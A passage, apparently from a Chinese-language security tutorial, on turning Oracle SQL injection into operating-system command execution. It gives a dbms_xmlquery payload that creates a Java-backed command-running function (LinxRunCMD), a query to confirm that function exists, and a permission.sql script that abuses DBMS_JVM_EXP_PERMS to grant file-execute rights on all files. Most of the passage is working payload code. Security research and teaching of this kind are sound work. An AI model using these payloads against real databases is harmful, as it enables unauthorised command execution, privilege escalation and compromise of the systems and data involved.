 ```plain
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
```

[![](assets/1710899076-62a7c8cbae5e82869124c67c35edc1c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101150-bc0926c4-d5de-1.png)

然后可以查询一下 object 是否存在

```plain
select OBJECT_ID from all_objects where object_name ='LINXRUNCMD';
```

[![](assets/1710899076-ae525c58e58a53cf2e31102b294a7230.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101156-bf7f40c2-d5de-1.png)

最后直接命令执行

[![](assets/1710899076-ad60ab01dcb01f5a9a1e531367d80fb0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101200-c1c8139a-d5de-1.png)

## sql storage

这个方法其实就是和 sh 文件一样，把多个语句放到一个 sql 文件，然后让 oracle 执行。也就是说我们需要有一个任意文件写入的点位  
permission.sql

```plain
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 
'GRANT',USER(),'SYS','java.io.FilePermission',
'<<ALL FILES>>','execute','ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
```
